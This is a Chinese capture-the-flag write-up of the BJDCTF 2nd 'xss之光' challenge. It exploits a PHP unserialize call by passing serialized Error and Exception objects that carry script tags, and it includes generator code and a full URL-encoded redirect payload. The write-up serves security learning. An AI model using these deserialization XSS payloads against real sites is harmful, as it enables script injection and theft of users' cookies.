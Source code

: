 * # BJDCTF 2nd

* ## 0x01 xss之光

  关键词：xss，反序列化，php原生类

  打开界面，没有任何可利用信息，猜测为git泄露

  采用GitHack下载源码

  ```
  <?php
  $a = $_GET['yds_is_so_beautiful'];
  echo unserialize($a);
  ```

  发现`unserialize`函数但并没有pop链，考虑用php原生类进行反序列化xss攻击。

  调用__toString魔术方法的原生类：

  * Error（适用于php7）

    XSS（开启报错的情况下）

    ```
    <?php
    $a = new Error("<script>alert(1)</script>");
    $b = serialize($a);
    echo urlencode($b);
    ```

  * Exception（适用于php5、7版本）

    XSS（开启报错的情况下）

    ```
    <?php
    $a = new Exception("<script>alert(1)</script>");
    $b = serialize($a);
    echo urlencode($b);
    ```

  因而构造xss跳转完成xss攻击，payload：

  ```
  <?php
  $a = new Exception("<script>window.location.href = https://www.baidu.com</script>");
  $b = serialize($a);
  echo urlencode($b);
  ?>
  ```

  反序列化后成为：

  ```
  O%3A9%3A%22Exception%22%3A7%3A%7Bs%3A10%3A%22%00%2A%00message%22%3Bs%3A61%3A%22%3Cscript%3Ewindow.location.href+%3D+https%3A%2F%2Fwww.baidu.com%3C%2Fscript%3E%22%3Bs%3A17%3A%22%00Exception%00string%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22%00%2A%00code%22%3Bi%3A0%3Bs%3A7%3A%22%00%2A%00file%22%3Bs%3A34%3A%22C%3A%5Cphpstudy_pro%5CWWW%5Cxsspayload.php%22%3Bs%3A7%3A%22%00%2A%00line%22%3Bi%3A2%3Bs%3A16%3A%22%00Exception%00trace%22%3Ba%3A0%3A%7B%7Ds%3A19%3A%22%00Exception%00previous%22%3BN%3B%7D
  ```

  最终在cookie中获取flag

  ![image-20210326135630996](C:\Gitbook\Import\heart1ess_s_ctf\assets\bjd2-1.png)

  

